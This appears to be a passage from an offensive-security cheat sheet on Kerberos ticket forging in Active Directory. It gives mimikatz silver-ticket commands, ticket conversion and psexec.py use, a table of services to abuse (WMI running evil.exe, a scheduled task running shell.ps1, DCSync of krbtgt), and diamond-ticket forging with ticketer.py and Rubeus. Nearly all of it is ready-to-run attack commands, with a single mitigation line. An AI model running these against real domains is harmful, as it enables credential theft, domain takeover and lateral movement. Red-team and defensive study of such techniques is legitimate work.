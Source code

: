 Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

```powershell
# Create a ticket for the service
mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:TARGET-HOST.DOMAIN.FQDN /rc4:TARGET-MACHINE-NT-HASH /service:SERVICE

# Examples
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

# Then use the same steps as a Golden ticket
mimikatz $ misc::convert ccache ticket.kirbi

root@kali:/tmp$ export KRB5CCNAME=/home/user/ticket.ccache
root@kali:/tmp$ ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

Interesting services to target with a silver ticket :

| Service Type                                | Service Silver Tickets | Attack |
|---------------------------------------------|------------------------|--------|
| WMI                                         | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`     |
| PowerShell Remoting                         | CIFS + HTTP + (wsman?) | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM                                       | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks                             | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                   | CIFS                   | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync   | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools  | RPCSS   + LDAP  + CIFS | /      |

Mitigations:

* Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.

## Pass-the-Ticket Diamond Tickets

> Request a legit low-priv TGT and recalculate only the PAC field providing the krbtgt encryption key

Requirements:

* krbtgt NT Hash
* krbtgt AES key

```ps1
ticketer.py -request -domain 'lab.local' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'

Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```
